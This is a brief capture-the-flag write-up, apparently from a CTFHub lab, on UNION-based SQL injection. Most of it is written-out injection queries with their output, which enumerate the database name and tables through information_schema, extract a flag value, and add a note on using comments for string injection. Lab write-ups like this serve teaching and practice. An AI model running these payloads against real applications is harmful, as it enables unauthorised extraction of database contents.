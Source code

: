 ```    select * from news where id=-1 union select 1,Database()
    --ID: 1
    --Data: sqli
```
so we know the name of the sql is sqli

then we want to find the columns

databases like Mysql has built-in information schema in default, is a
database

we can check for all the databases available, so we call for
information_schema.schemata, this is also what the sql is doing when
executing show databases

and since the website only displays one row, we have to concat them
together to view all of them

so

```    select * from news where id=-1 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
    -- ID: 1
    -- Data: flag, news
```
then we want to look at the flag table

```    select * from news where id=-1 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli' and table_name='flag'
    -- ID: 1
    -- Data: flag
```
we know that flag is in the flag table

we do

```    select * from news where id=-1 union select 1,group_concat(flag) from sqli.flag
    -- ID: 1
    -- Data: ctfhub{4f5e458ba1386c1b56f67254}
```
### string sql injection

this is similar

the only thing to keep in mind is that there is a \' in the end, but you
can use comments to get rig of that

the rest is basically the same
::::::::::::::::::::
::::::::::::::::::::::::::::::
:::::::::::::::::::::::::::::::
